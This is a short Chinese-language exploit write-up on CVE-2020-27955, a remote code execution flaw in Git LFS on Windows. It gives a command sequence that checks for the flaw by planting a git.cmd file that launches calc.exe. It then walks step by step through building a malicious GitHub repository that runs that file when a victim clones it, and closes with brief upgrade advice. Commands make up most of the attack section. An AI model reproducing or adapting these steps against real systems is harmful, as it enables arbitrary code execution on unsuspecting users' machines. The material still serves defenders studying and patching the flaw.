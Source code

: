 # Git LFS 远程代码执行漏洞 CVE-2020–27955

2020年11月5日，在Git扩展之一GIT LFS上发现了一个关键漏洞。此漏洞利用成功会导致目标机器的远程代码执行。

远程代码执行漏洞仅对Windows平台上的Git-LFS（git-lfs）版本<=2.12上有效。一旦受害者克隆了恶意存储库，并在他们的系统上运行了易受攻击版本的git-lfs，恶意Payload就会立即执行。

漏洞验证：

在CMD窗口上使用以下命令。如果安装了受影响的git-lfs工具，系统将提示您使用计算器应用程序。


```
1. mkdir C:\Windows\Temp\poc
2. cd C:\Windows\Temp\poc
3. echo calc.exe > git.cmd
4. git-lfs track
```

在目标系统上获得RCE

按照以下步骤进行远程代码执行

作为攻击者：

1.在GitHub上创建一个存储库

media/16097299855890/16097300092808.jpg)



```
2. cd /dev/shm
3. git clone https://github.com/attacker/poc.git .
4. echo calc.exe > git.cmd
5. git lfs track “*.dat”
6. echo “Junk” > large.dat
7. git add -A
8. git commit -m “POC”
9. git push -u origin master -f
```

media/16097299855890/16097300214141.jpg)


受害者：

1.git clone https://github.com/attacker/poc.git.

media/16097299855890/16097300337411.jpg)

PoC视频：

https://www.youtube.com/watch?v=WF69X9KEayE

加固建议：

更新并保持 git 版本高于 2.29.2，将 git-lfs 扩展程序保持在 2.12 以上


ref：

https://medium.com/bugbountywriteup/git-lfs-exploit-for-remote-code-execution-cve-2020-27955-e8f4786163c3

https://forum.ywhack.com/thread-114744-1-4.html